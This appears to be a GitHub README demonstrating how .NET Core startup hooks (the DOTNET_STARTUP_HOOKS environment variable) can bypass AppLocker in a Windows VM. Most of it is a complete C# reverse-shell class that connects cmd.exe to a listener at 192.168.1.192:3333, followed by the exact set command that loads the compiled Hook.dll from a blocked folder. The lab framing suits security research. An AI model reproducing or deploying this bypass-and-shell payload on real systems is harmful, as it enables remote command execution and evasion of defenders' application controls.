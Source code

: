 
# Hijacking via .NET Core Startup Hooks

Starting from .Net Core 3.x, even .Net 5 and .Net 6, microsoft allows us to specify Startup procedures before our `Main` function runs. 

> This would allow hosting providers to define custom configuration and policy in managed code, including settings that potentially influence load behavior of the main entry point such as the AssemblyLoadContext behavior. The hook could be used to set up tracing or telemetry injection, to set up callbacks for handling Debug.Assert (if we make such an API available), or other environment-dependent behavior. The hook is separate from the entry point, so that user code doesn't need to be modified.

More info regarding Startup Hooks can be seen [here](https://github.com/dotnet/runtime/blob/main/docs/design/features/host-startup-hook.md).


In this demo, we will focus on
1. Bypassing Applocker
2. Introspection and Modification of code or behaviour at Runtime


# How to define a Startup Hook

A `Startup Hook` has to have 
1. No Namespaces
2. Class name is `StartupHook`
3. Implement the static method `public static void Initialize()`.

Basically, the `StartupHook` skeleton looks as follows.

```cs
internal class StartupHook
{
    public static void Initialize()
    {
        //Attacker code goes here
    }
}
```

Then, we will have to compile it as a `Class Library` file.

Following that, create an environment variable `set DOTNET_STARTUP_HOOKS=<Full Path to Hook>` and proceed to run your binary.

# Bypassing Applocker

For this demo, I have a `Win10 VM` with `Applocker` enabled with the default rules. In addition, the Applocker has a rule that allows a particular folder to run executables.

> Do remember to run the `gpupdate /Force` command if you have added a new applocker rule, for the new rule to take effect.


![image](https://user-images.githubusercontent.com/12537739/149788090-404edd1b-272b-41ae-86b4-d8d99fb489a6.png)

As we can see, running the executable from the `Desktop` directory is blocked by Applocker.

![image](https://user-images.githubusercontent.com/12537739/149789288-fc19d934-0c97-477c-b4ae-93ccbacda21c.png)

Running it from the `Allowed` folder gives us a console windows that simply prints `Hello World!`

![image](https://user-images.githubusercontent.com/12537739/149793011-975cccde-3165-44bd-9733-f2c394d92790.png)


Now lets prepare our `Startup Hook`!

We are going to create a reverse shell to connect to the host machine at `192.168.1.192`.

```cs
using System;
using System.Diagnostics;
using System.IO;
using System.Net.Sockets;
using System.Text;

internal class StartupHook
{


    public static void Initialize()
    {

        StartReverseShell();
    }

    private static void StartReverseShell()
    {
        int delay = 3000;
        string ip = "192.168.1.192";
        int port = 3333;
        var debugMessage = $"Connecting to {ip}:{port} in {delay / 1000} seconds...";
        Console.WriteLine(debugMessage);

        try
        {
            using (TcpClient client = new TcpClient(ip, port))
            {

                using (Stream stream = client.GetStream())
                {
                    using (StreamReader rdr = new StreamReader(stream))
                    {
                        streamWriter = new StreamWriter(stream);

                        StringBuilder strInput = new StringBuilder();

                        Process process = new Process()
                        {
                            StartInfo = new ProcessStartInfo()
                            {
                                FileName = "cmd.exe",
                                CreateNoWindow = true,
                                UseShellExecute = false,
                                RedirectStandardOutput = true,
                                RedirectStandardError = true,
                                RedirectStandardInput = true
                            },

                        };
                        process.OutputDataReceived += new DataReceivedEventHandler(OutputDataReceivedHandler);
                        process.Start();
                        process.BeginOutputReadLine();

                        while (true)
                        {
                            strInput.Append(rdr.ReadLine());
                            process.StandardInput.WriteLine(strInput);
                            strInput.Remove(0, strInput.Length);
                        }
                    }
                }
            }
        }
        catch (Exception e)
        {
            Console.WriteLine(e.Message);

        }

    }
  private static void OutputDataReceivedHandler(object sendingProcess, DataReceivedEventArgs outLine)
  {
    StringBuilder strOutput = new StringBuilder();

    if (!String.IsNullOrEmpty(outLine.Data))
    {
        try
        {
            strOutput.Append(outLine.Data);
            streamWriter.WriteLine(strOutput);
            streamWriter.Flush();
        }
        catch (Exception err) { }
    }
  }
}



```

Basically inside our `Initialize` static method, we are calling our `StartReverseShell` method.

The full code example can also be retrieved in this repo under the `Startup Hook` project.

Proceed to compile the project as a `Class Library` and we will end up with a `Hook.dll`.

![image](https://user-images.githubusercontent.com/12537739/149790561-2f211a86-efd2-44ff-8422-39fbe7df70d1.png)

Let's copy our `Hook.dll` into the `VM`'s `Desktop` folder. 

> Remember, the `Desktop` folder is restricted to NOT execute any executables. But it doesn't matter as we can bypass it using this hooking method.

Now let's start a `netcat` session in our host and listen to port `3333` which is configured in our `hook.dll` to connect to.

![image](https://user-images.githubusercontent.com/12537739/149791028-904b0dd4-15f7-4b88-a5a6-0752e6f00dfb.png)

Next in our `VM`, lets run the following command to set our environment variable to set our `Startup Hook`.

```sh
C:\Users\NormalUser\Desktop\Allowed> set DOTNET_STARTUP_HOOKS=C:\Users\NormalUser\Desktop\Hook.dll
```

Lastly we simply run our program.

![image](https://user-images.githubusercontent.com/12537739/149791735-a71e8da5-1e0d-4872-95c1-d3fc7a5950b3.png)


![image](https://user-images.githubusercontent.com/12537739/149791799-e986a456-e699-4175-bb87-e00c34601f2f.png)


We have just bypassed Applocker!
